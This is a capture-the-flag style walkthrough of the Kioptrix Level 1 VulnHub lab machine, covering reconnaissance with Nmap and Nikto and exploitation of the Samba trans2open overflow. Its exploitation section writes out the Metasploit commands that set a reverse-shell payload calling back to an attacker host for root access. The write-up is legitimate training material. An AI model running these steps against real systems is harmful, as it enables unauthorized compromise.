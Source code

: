 ```yaml
---
title: "Kioptrix Level 1 Walkthrough"
layout: post
collection: writeups
permalink: /writeups/kioptrix-level1/
date: 2025-01-09
categories: ["Writeups", "VulnHub"]
tags: [pentest, samba, trans2open, metasploit, reverse-shell]
image: /assets/images/writeups/kioptrix1/kioptrix-1.jpg
thumbnail: /assets/images/writeups/kioptrix1/kioptrix-1.jpg
icon: fas fa-server
excerpt: "Exploiting an outdated Samba service using Metasploit to gain root access on Kioptrix Level 1."
description: "Walkthrough of Kioptrix Level 1 VM penetration test, covering reconnaissance, vulnerability identification, and exploitation via Samba trans2open overflow."
---
```




# Kioptrix Level 1 — Walkthrough

## Introduction

**Kioptrix Level 1** is a beginner-friendly vulnerable virtual machine on VulnHub intended for practicing penetration-testing fundamentals. The objective of this walkthrough is to enumerate the machine, identify vulnerabilities, and obtain root access.

![Kioptrix Welcome Screen](/assets/images/writeups/kioptrix1/Kioptrix1.png)

---

## Reconnaissance

### Network discovery

Tools used: `netdiscover`, `arp-scan`.

* Target discovered at: `192.168.56.110`.
* MAC address: `08:00:27:39:c3:0d` (VirtualBox).

![Netdiscover Scan](/assets/images/writeups/kioptrix1/netdiscover.png)
![ARP Scan](/assets/images/writeups/kioptrix1/arp-scan.png)

### Port scanning

Performed a full Nmap scan to enumerate services and detect the OS:

```bash
nmap -sS -sV -O 192.168.56.110 -oN kioptrix.txt
```

**Open ports (summary):**

* `22/tcp`  — OpenSSH 2.9p2 (protocol 1.99)
* `80/tcp`  — Apache 1.3.20 (Red Hat Linux)
* `111/tcp` — rpcbind
* `139/tcp` — Samba (`smbd`)
* `443/tcp` — Apache/SSL
* `32768/tcp` — status

![Nmap scan - overview](/assets/images/writeups/kioptrix1/nmap-scan1.png)

---

## Vulnerability analysis

### Web service enumeration

* Apache `1.3.20` with `mod_ssl/2.8.4` and `OpenSSL/0.9.6b` — all significantly out of date.
* `nikto` flagged multiple issues:

  * Outdated components.
  * `TRACE` method enabled (possible XST).
  * Directory listings exposed.
  * Indicators of a PHP file manager/backdoor.

![Port 80 observations](/assets/images/writeups/kioptrix1/port-80observe.png)
![Page source highlights](/assets/images/writeups/kioptrix1/source-page.png)

```
# Example nikto command used
nikto -h http://192.168.56.110
```

### Samba service

* Samba reported as `2.2.x`.
* This version is vulnerable to the `trans2open` buffer overflow (CVE-2003-0201), making it a high-priority target.

---

## Exploitation

### Metasploit approach (trans2open)

Used Metasploit to search and execute a Samba trans2open exploit:

```bash
msfconsole
search trans2open
use exploit/linux/samba/trans2open
set RHOSTS 192.168.56.110
set payload linux/x86/shell_reverse_tcp
set LHOST 192.168.56.102
set LPORT 4444
run
```

![Search trans2open module](/assets/images/writeups/kioptrix1/search-trans2open.png)

**Result:** the exploit successfully opened reverse shells (observed sessions on ports `32773–32776`) and provided a root shell.

![Exploit options](/assets/images/writeups/kioptrix1/exploit-options.png)
![Hosts setup](/assets/images/writeups/kioptrix1/hosts-setup.png)

---

## Post-exploitation

After gaining a shell, verified root privileges and enumerated the system:

```bash
whoami      # => root
hostname    # => kioptrix.level1
```

Found a congratulations message in the system mail for root:

![Locate mail](/assets/images/writeups/kioptrix1/locate-mail.png)

Captured the flag and evidence:

![Flag captured](/assets/images/writeups/kioptrix1/flag.png)

---

## Key findings

### Critical vulnerabilities

* **Samba trans2open overflow** — decisive exploit vector.
* **Outdated software stack** — Apache `1.3.20`, OpenSSL `0.9.6b`.
* **Weak service configuration** — `TRACE` enabled, directory listings, and exposed backdoor-like files.

### Attack chain

1. Network discovery → identify target IP.
2. Port scanning → enumerate services.
3. Service enumeration → identify vulnerable Samba.
4. Exploitation → execute trans2open via Metasploit.
5. Reverse shell → root access.

---

## Lessons learned

* Regular patching and updates are critical — a single unpatched service can lead to full system compromise.
* Legacy Samba versions are high-risk and have been exploited in the wild for years.
* Comprehensive reconnaissance and automated tooling (Nmap, Nikto, Metasploit) speed up discovery and exploitation in CTF/lab environments.

---

## Conclusion

Kioptrix Level 1 is an excellent introductory exercise that demonstrates how one vulnerable service (Samba) can compromise an entire system. This walkthrough documented a Metasploit-based exploitation path; alternative manual exploitation or deeper post-exploitation enumeration are great follow-ups for learning.

> **Ethical note:** Use these techniques only on systems you own or are authorized to test.

---

## References & Resources

* Kioptrix VM (VulnHub)
* Samba trans2open (CVE-2003-0201)
* Metasploit Framework
* Nmap, Nikto
